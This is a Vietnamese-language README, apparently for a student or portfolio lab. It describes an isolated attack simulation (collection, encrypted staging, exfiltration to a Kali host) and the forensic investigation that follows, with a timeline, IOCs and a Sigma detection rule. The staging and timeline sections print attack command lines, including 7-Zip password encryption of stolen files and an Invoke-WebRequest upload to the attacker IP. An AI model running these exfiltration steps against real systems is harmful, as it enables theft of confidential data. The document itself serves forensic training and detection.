

# 🔬 End-to-End DFIR & Threat Detection Lab
> **Comprehensive Attack Simulation, Multi-Layer Digital Forensics, and Threat Detection across Collection, Staging, and Exfiltration Phases (MITRE ATT&CK)**

[](#)
[](#)
[](#)

---

## 📌 Tổng quan Dự án (Project Overview)
Dự án tập trung xây dựng và thực nghiệm một môi trường phòng thủ - điều tra số khép kín (**End-to-End DFIR Lab**). Mô hình bao gồm việc giả lập tấn công có kiểm soát theo khung **MITRE ATT&CK**, kết hợp với việc thu thập và phân tích đa tầng chứng cứ số:
1. **Mô phỏng chuỗi tấn công 3 giai đoạn**: Thu thập dữ liệu (*Collection - T1005*) $\rightarrow$ Đóng gói & Mã hóa lén lút (*Staging - T1560.001*) $\rightarrow$ Trích xuất ra máy chủ C2 (*Exfiltration - T1041/T1048*).
2. **Điều tra Forensic đa tầng (Multi-Layer Investigation)**:
   * **Host Event Logs**: Phân tích chuyên sâu nhật ký Sysmon (Event ID 1, 3, 11, 23) và Windows Audit Policy.
   * **File System & Artifacts**: Phân tích Master File Table (`$MFT`) bằng `MFTECmd`, lịch sử thực thi `Prefetch` và đo độ hỗn loạn thông tin **Shannon Entropy** ($4.85 \rightarrow 7.99$ bits/byte).
   * **Memory Forensics**: Thu thập bộ nhớ RAM vật lý 4GB (`winpmem`) và phân tích cấu trúc Kernel in-memory bằng **Volatility 3** (`pstree`, `psscan`, `cmdline`, `netscan`).
   * **Network Forensics**: Bắt và tái hiện luồng truyền tải dữ liệu HTTP POST / TCP stream qua **Wireshark (PCAP)**.
3. **Xây dựng Chuỗi thời gian (Unified Timeline) & Bộ chỉ số thỏa hiệp (IOCs)**.

---

## 🏗️ Kiến trúc Môi trường Lab (Lab Topology)

Môi trường thực nghiệm được thiết lập hoàn toàn cô lập trong mạng nội bộ (**Internal Network - DFIR_LAB**):



---

## 🎯 Chi tiết Thực nghiệm & Bằng chứng Forensics

### 1. Giai đoạn 1: Thu thập Dữ liệu (Collection - T1005)
* **Kịch bản**: Lợi dụng `xcopy` và kịch bản `Invoke-AtomicTest T1005` duyệt quét toàn bộ các ổ đĩa cục bộ, gom các tập tin nhạy cảm (`.docx`, `.csv`, `.txt`, `.jpg`, `.png`) từ thư mục `Company_Secrets` về file lưu trữ tạm `data.zip`.
* **Dấu vết Forensics**:
  * **Sysmon Event ID 1 (Process Create)**: Ghi nhận tiến trình `powershell.exe` thực thi dòng lệnh quét đệ quy các phần mở rộng tệp tin và nén bằng `Compress-Archive`.
  * **File System Baseline**: Đối chiếu mốc thời gian MACB gốc của tập tin tài liệu doanh nghiệp (`customer_database_2026.csv`, `passwords.txt`) trước và sau khi bị xâm nhập.

---

### 2. Giai đoạn 2: Đóng gói & Mã hóa lén lút (Staging - T1560.001)
* **Kịch bản**: Kẻ tấn công sử dụng công cụ nén **7-Zip (`7z.exe`)** nén lồng tập tin `data.zip` thành `archive.7z` (hoặc `staged_encrypted.7z`) kèm thiết lập mật khẩu bảo vệ (`-pblue` / `-pP@ssw0rd2026!`).
* **Phân tích Đột biến Shannon Entropy**:
  * Viết script PowerShell đo lường phân bố xác suất byte trên các tệp tin trước và sau khi mã hóa:
    $$\text{Entropy thô (CSV)} \approx 4.85 \text{ bits/byte} \longrightarrow \text{Entropy nén mã hóa (7z)} \approx 7.999 \text{ bits/byte}$$
  * *Nhận xét*: Độ hỗn loạn tăng vọt tiệm cận mức ngẫu nhiên tuyệt đối ($8.0$) là bằng chứng toán học quan trọng giúp hệ thống SOC/DLP nhận diện hành vi mã hóa che giấu dữ liệu.
* **Sysmon Event ID 1**: Bắt trọn tiến trình cha `cmd.exe` sinh ra tiến trình con `7z.exe` với tham số mật khẩu `-p...` lưu rõ trong trường `CommandLine`.
* **RAM Dump #1**: Sử dụng `winpmem acquire C:\Tools\mem_dump_day6.raw` trích xuất tức thời 4GB RAM ngay sau khi nén dữ liệu.

---

### 3. Giai đoạn 3: Trích xuất Dữ liệu qua Mạng (Exfiltration - T1041 / T1048)
* **Kịch bản**: Thực thi `Invoke-AtomicTest T1041-1` và luồng kết nối TCP Socket đẩy tập tin nén mã hóa từ máy nạn nhân sang máy chủ Kali Linux (`192.168.100.20:8080` / `9999`).
* **Khôi phục Dữ liệu phía Attacker**:
  * Trên Kali Linux, máy chủ tiếp nhận luồng nhị phân và giải nén 2 tầng:
    ```bash
    7z x exfiltrated_data.7z -p"blue"
    unzip data_collected
    ```
  * Kết quả: Khôi phục nguyên vẹn 100% tài liệu mật gốc (`customer_database_2026.csv`, `passwords.txt`, ảnh hồ sơ `ID/`).
* **Network & Host Evidence**:
  * **Wireshark (PCAP)**: Bắt trọn vẹn luồng dữ liệu HTTP POST / TCP stream, tái hiện dung lượng và đích đến của dữ liệu bị tuồn ra ngoài.
  * **Sysmon Event ID 3 (Network Connection)**: Ghi lại kết nối mạng Outbound từ tiến trình nghi vấn tới IP `192.168.100.20` trên cổng `8080/9999`.

---

### 4. Giai đoạn 4: Điều tra Chuyên sâu Sau Sự cố (Post-Incident Deep Forensics)

#### 🗄️ A. File System & Disk Forensics (MFT & Prefetch)
* **Prefetch Analysis (`C:\Windows\Prefetch`)**: Trích xuất dấu vết các tệp `.pf` (`POWERSHELL.EXE-*.pf`, `CURL.EXE-*.pf`, `7Z.EXE-*.pf`) xác nhận lịch sử và mốc thời gian thực thi cuối cùng (`LastWriteTime`).
* **NTFS Master File Table (`$MFT`) qua MFTECmd**:
  * Đọc bản ghi đĩa thô của tập tin hệ thống `$MFT`, trích xuất các bản ghi:
    * `EntryNumber 1780`: Tệp `data.zip` (Tạo lúc thu thập).
    * `EntryNumber 1846`: Tệp `archive.7z` (Tạo lúc nén mã hóa).
    * `EntryNumber 112227`: `customer_database_2026.csv` (Tệp dữ liệu thô).
  * Trích xuất mốc thời gian thuộc tính **Standard Information ($0x10)** với độ chính xác đến từng microgiây.

#### 🧠 B. Memory Forensics bằng Volatility 3 trên Kali Linux
* Thu thập bản RAM Dump thứ hai (`mem_dump_day10.raw`) sau khi Exfiltration hoàn tất, chuyển sang Kali Linux và giải mã Kernel cấu trúc dữ liệu:
  * **`windows.pstree` / `windows.psscan`**: Khôi phục cây tiến trình tấn công in-memory, xác định tiến trình tấn công cốt lõi `powershell.exe` (PID 2552 & 4036), tiến trình trích xuất RAM `winpmem.exe` (PID 3956), và tiến trình giám sát `Sysmon64.exe` (PID 7132).
  * **`windows.cmdline`**: Trích xuất toàn bộ câu lệnh và tham số thực thi lưu trong `PEB->ProcessParameters`.
  * **`windows.netscan`**: Xác định địa chỉ IP nội bộ của máy nạn nhân (`192.168.100.10`) và các socket mạng.

---

## ⏳ Chuỗi Thời gian Tấn công Tổng hợp (Unified Attack Timeline)

Ghép nối dữ liệu đa nguồn từ Sysmon EVTX, MFT Timestamps và Wireshark PCAP thành chuỗi sự kiện liền mạch:

| Mốc Thời gian (Timestamp) | Nguồn / EventID | Giai đoạn MITRE | Chi tiết Hành vi ghi nhận (Event Detail) |
| :--- | :--- | :--- | :--- |
| **2026-08-12 17:16:04** | Sysmon EID 1 | **(1) Collection (T1005)** | `xcopy C:\Users\Admin\Documents\Company_Secrets C:\Users\Public...` |
| **2026-08-12 17:32:39** | Sysmon EID 1 | **(1) Collection (T1005)** | `powershell.exe ... Search-Files ... Compress-Archive ... data.zip` |
| **2026-08-12 17:51:28** | Sysmon EID 1 | **(2) Staging (T1560.001)** | `7z.exe a -t7z -pP@ssw0rd2026! C:\Users\Public\staged_encrypted.7z ...` |
| **2026-08-12 18:00:23** | Sysmon EID 1 | **(2) Staging (T1560.001)** | `7z.exe u archive.7z *txt -pblue` |
| **2026-08-14 17:35:28** | Sysmon EID 1 | **(3) Exfiltration (T1041)** | `powershell.exe ... Invoke-WebRequest -Uri http://192.168.100.20:8080 ...` |
| **2026-08-14 17:35:32** | Sysmon EID 3 | **(3) Exfiltration (T1041)** | `Network Connection Outbound To: 192.168.100.20:8080` |
| **2026-08-15 15:16:37** | Sysmon EID 3 | **(3) Exfiltration (T1041)** | `Network Connection Outbound To: 192.168.100.20:9999` |

---

## 🛡️ Chỉ số Nhận diện Tấn công (IOCs) & Khuyến nghị Phát hiện

### 1. Bảng Chỉ số Thỏa hiệp (Indicators of Compromise)
* **Process IOC**: `xcopy.exe`, `7z.exe`, `curl.exe`, `powershell.exe`.
* **Command Line IOC**: `* -pblue`, `* -pP@ssw0rd2026!`, `Compress-Archive`, `Invoke-WebRequest`.
* **Network IOC**: C2 Server Destination IP `192.168.100.20`, Destination Ports: `8080`, `9999`.
* **File System IOC**: `staged_encrypted.7z`, `data.zip`, `archive.7z` (Entropy $> 7.8$).

### 2. Quy tắc Phát hiện Sigma Rules Đề xuất

```yaml
title: Suspicious Archive Password Encryption via 7-Zip (Staging T1560)
id: 5a8e1b2c-3d4e-5f6a-7b8c-9d0e1f2a3b4c
status: experimental
description: Detects command-line execution of 7-Zip setting password encryption to conceal staged files.
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 1
        Image|endswith: '\7z.exe'
        CommandLine|contains:
            - '-p'
            - '-t7z'
    condition: selection
level: high
tags:
    - attack.staging
    - attack.t1560.001
```

---

## 📂 Tài liệu Đính kèm
* Toàn bộ báo cáo phân tích chi tiết kèm 24 ảnh chụp minh chứng thực nghiệm từng bước được lưu trữ tại: **Bao_Cao_Lab_DFIR_Threat_Detection.pdf**
